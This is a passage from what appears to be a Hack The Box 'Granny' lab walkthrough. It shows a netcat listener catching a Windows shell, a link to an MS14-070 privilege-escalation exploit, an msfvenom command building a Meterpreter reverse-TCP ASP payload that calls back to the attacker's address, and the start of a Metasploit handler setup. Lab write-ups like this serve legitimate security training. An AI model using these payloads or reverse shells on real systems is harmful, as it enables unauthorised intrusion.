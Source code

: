 {% raw %}
```sh
┌──(kali㉿kali)-[~/Documents/htb/granny]
└─$ sudo nc -nlvp 443                              
listening on [any] 443 ...
connect to [10.10.16.12] from (UNKNOWN) [10.10.10.15] 1030
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

c:\windows\system32\inetsrv>
```
{% endraw %}

<br />
Now...it was at this point that I was struggling with the compiled privelege escalation exploit.  It kept freezing my shell.  So, I decided to pivot to Meterpreter.  But I cut the struggle out for cleanliness.

{% raw %}
```sh
https://github.com/erwinwildenburg/Offsec/blob/master/Exploits/Windows/Privilege%20Escalation/MS14-070.c
```
{% endraw %}

<br />
Use msfvenom to generate a new payload in asp format and with the txt extension.

{% raw %}
```sh
┌──(kali㉿kali)-[~/Documents/htb/granny]
└─$  msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.16.12 LPORT=443 -f asp -o special.txt       
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of asp file: 38316 bytes
Saved as: special.txt
```
{% endraw %}

<br />
Start the a multi handler in msfconsole.

{% raw %}
```sh
┌──(kali㉿kali)-[~/Documents/htb/granny]
└─$ msfconsole -q
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > show options

Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


```